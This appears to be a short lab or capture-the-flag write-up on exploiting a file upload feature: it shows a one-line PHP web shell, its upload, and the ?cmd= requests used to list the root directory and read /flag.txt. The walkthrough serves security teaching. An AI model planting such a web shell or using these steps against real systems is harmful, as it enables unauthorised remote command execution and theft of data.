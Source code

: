 # Upload Exploitation

Try to exploit the upload feature to upload a web shell and get the content of /flag.txt

This lab consists in obtaining a web shell access through the web application. There may be multiple ways to this, so I'll just how I did it.

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First create a simple custom web shell:

```php
<?php system($_REQUEST['cmd']); ?>
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Access the web application and upload the web shell.

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After the file has been uploaded, click on `Download File` and you will be redirected to this page. We are currently accessing the file we just uploaded. Since the function is expecting a command we have to write the `cmd` parameter.

```bash
?cmd=pwd
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Since we passed the `pwd` command, we got the output that we were expecing. So we can confirm we got a web shell access.

Now all we have to do is search for the flag, which in this case is in the root directory.

```bash
?cmd=ls /
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Here it is! Now let's see the content of the flag:

```
?cmd=cat /flag.txt
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got it!
